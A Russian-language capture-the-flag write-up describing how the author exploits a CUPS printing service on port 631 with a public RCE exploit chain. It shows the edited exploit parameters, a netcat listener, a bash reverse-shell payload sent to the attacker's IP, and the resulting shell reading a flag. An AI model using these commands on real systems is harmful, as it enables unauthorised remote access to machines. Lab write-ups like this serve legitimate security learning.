 # Врайтап на Сервис печати 1


## Шаг первый.

Первым же делом я посмотрел открытые порты, увидел что порт `631/tcp open  ipp` открыт и доступен для входа.
Перешел, увидел веб приложение принтера, сразу же пошел гуглить эксплоиты на эту версию.

## Шаг второй.

Нашел очень интересный эксплоит с `RCE` на гитхабе `https://github.com/0xCZR1/PoC-Cups-RCE-CVE-exploit-chain`.
Скачал, почитал код и понял что его нужно чутка заменить, так как у нас другие открытые порты
`SERVER_PORT = 12349` заменил на `SERVER_PORT = 41222`, и еще
`printer_uri = f'http://{ipp_server_host}:{ipp_server_port}/printers/EVILCUPS'` заменил `EVILCUPS` на `MARCUSPRINTER`, ибо что бы эксплоит работал нужно было создавать новый принтер

## Шаг третий.

Открыл уже другой порт командой `nc -nvlp 41223`
И запустил программу коамндой 
`python cups-rce.py 10.5.5.66 10.10.1.145 "sh -i >& /dev/tcp/10.5.5.66/41223 0>&1"`

получил вывод

```
Starting IPP server at ('10.5.5.66', 41222)
Sending UDP packet to 10.10.1.145:631...
Packet content:
2 3 http://10.5.5.66:41222/printers/MARCUSPRINTER "Pwned Location" "Pwned Printer" "HP LaserJet 1020" 


target connected, sending payload ...

target connected, sending payload ...
```
Далее я на стетье в гитхабе увидел что для того что бы эксплоит сработал, нужно еще запустить печать на принтере.
Перешел в свой принтер, и запустил `print test page`

И получил Реверс шелл
```
$ ls
user_flag.txt
usr
var
$ cat user_flag.txt
nto{n0t_my_cup5_0f_t34}
$ 
```

